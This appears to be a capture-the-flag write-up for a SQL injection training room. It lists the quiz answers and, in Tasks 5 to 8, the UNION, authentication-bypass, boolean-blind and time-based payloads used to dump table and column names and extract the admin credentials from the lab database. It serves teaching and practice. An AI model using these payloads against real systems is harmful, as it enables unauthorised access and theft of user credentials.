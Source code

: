 # SQL Injection

Learn how to detect and exploit SQL Injection vulnerabilities.

Nov 23, 2021

#### `Task 1: Brief`
##### - What does SQL stand for?
	- Structured Query Language
	
#### `Task 2: What is a Database?`
##### - What is the acronym for the software that controls a database?
	- DBMS
	
##### - What is the name of the grid-like structure which holds the data?
	- Table
	
#### `Task 3: What is SQL?`
##### - What SQL statement is used to retrieve data?
	- SELECT
	
##### - What SQL clause can be used to retrieve data from multiple tables?
	- UNION
	
##### - What SQL statement is used to add data?
	- INSERT

#### `Task 4: What is SQL Injection?`
##### - What character signifies the end of an SQL query?
	- ;

#### `Task 5: In-Band SQLi?`
Deploy the machine, then use the given commands by inserting it next to the last parameter.
- This will give you the database, then use the next one 
```
0 UNION SELECT 1,2,database()
```
- This will show the different table name in the sqli_one database
```
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```
- This will show you the diffent column name in the table
```
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```
- This will display the contents of that column
```
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```
By doing the steps above you will be able to find the username and password, then you can proceed inputting it in the login form and you will get the flag in the next page.

#### `Task 6: Blind SQLi - Authentication Bypass`
The next one is basically bypassing the authentication with the help of simple SQL injection,
In the login form you can basically input any username you want but in the password section I used- 
```
' OR 1=1;--
```
This means that the server will receive the payload as an true statement and will proceed to login the account.

#### `Task 7: Blind SQLi - Boolean Based`
This task will have an indicator when the characters that are being type are equal to the actual name of the database,table or column.
When the application will return true that means that you are typing the correct character or number. 

Firstly, we will use this code and it will return true since there are three columns in that table.
```
admin123' UNION SELECT 1,2,3;-- 
```
Then, we will guess for the correct database name for us to exploit the database.
```
admin123' UNION SELECT 1,2,3 where database() like 's%';--
admin123' UNION SELECT 1,2,3 where database() like 'sq%';--
admin123' UNION SELECT 1,2,3 where database() like 'sql%';--
```
By doing this cycle as much as possible the indicator will return true, so that we will know if we are getting the exact name for the database.
Then after we get the actual name of the database we will now search for the table name.
```
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'u%';--
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'us%';--
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'use%';--
```
After that we will now proceed getting the column name.
```
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'id%';--
```
But we did find the other column name that is `id` and it is just basically nonsense for us so we will ignore it and continue finding other column name.
```
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'userna%' and COLUMN_NAME !='id';--
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'passwo%' and COLUMN_NAME !='id';--
```
After we find the two column name that seems valuable to us which is `username` and `password` then we will now proceed to find the row or data in that column.
```
admin123' UNION SELECT 1,2,3 from users where username like 'a%';--
admin123' UNION SELECT 1,2,3 from users where username like 'ad%';--
admin123' UNION SELECT 1,2,3 from users where username like 'adm%';--
```
Then for the password-
```
admin123' UNION SELECT 1,2,3 from users where username='admin' and password like '3%';--
admin123' UNION SELECT 1,2,3 from users where username='admin' and password like '38%';--
admin123' UNION SELECT 1,2,3 from users where username='admin' and password like '384%';--
```

#### `Task 8: Blind SQLi - Time Based`
This is the same as the previous task but instead it will use the time to indicate that you are getting the exact characters for the actual name in the database.
First, we will test the application by using this code-
```
admin123' UNION SELECT SLEEP(5),2;--
```
After we know that the SLEEP command works, it represents that it is vulnerable to that attack.
```
referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 's%';--
referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 'sq%';--
referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 'sql%';--
```
Then after several try I found that the database name is `sqli_four`, then we will continue finding the table name.
Actually I just used the same command from previous task but just changing some code in there.
```
admin123' UNION SELECT SLEEP(2),2 FROM information_schema.tables WHERE table_schema = 'sqli_four' and table_name like 'us%';--
admin123' UNION SELECT SLEEP(2),2 FROM information_schema.tables WHERE table_schema = 'sqli_four' and table_name like 'use%';--
```
Then I found that the table name is `users` and by knowing that we can now proceed to find the columns in that table.
Again, I used the same command from the previous task just doing some modifications.
```
admin123' UNION SELECT SLEEP(2),2 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_four' and TABLE_NAME='users' and COLUMN_NAME like 'user%' and COLUMN_NAME !='id';--
admin123' UNION SELECT SLEEP(2),2 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_four' and TABLE_NAME='users' and COLUMN_NAME like 'userna%' and COLUMN_NAME !='id';--
admin123' UNION SELECT SLEEP(2),2 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_four' and TABLE_NAME='users' and COLUMN_NAME like 'passw%' and COLUMN_NAME !='id';--
admin123' UNION SELECT SLEEP(2),2 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_four' and TABLE_NAME='users' and COLUMN_NAME like 'passwor%' and COLUMN_NAME !='id';--
```
We now know that in the `users` table we have `username` and `password` column sitting in there.
Then, we will now find the actual row or data that the columns contain.
```
admin123' UNION SELECT 1,2,3 from users where username like 'a%';--
admin123' UNION SELECT 1,2,3 from users where username like 'adm%';--
```
Then
```
admin123' UNION SELECT SLEEP(2),2 from users where username ='admin' and password like '4%';--
admin123' UNION SELECT SLEEP(2),2 from users where username ='admin' and password like '4%1';--
admin123' UNION SELECT SLEEP(2),2 from users where username ='admin' and password like '49%1';--
```
After a few try we now know the correct username and password. `admin:4961`

#### `Task 9: Out-of-Band SQLi`
##### - Name a protocol beginning with D that can be used to exfiltrate data from a database.
	- DNS

#### `Task 10: Remediation`
##### - Name a method of protecting yourself from an SQL Injection exploit.
	- Prepared Statements
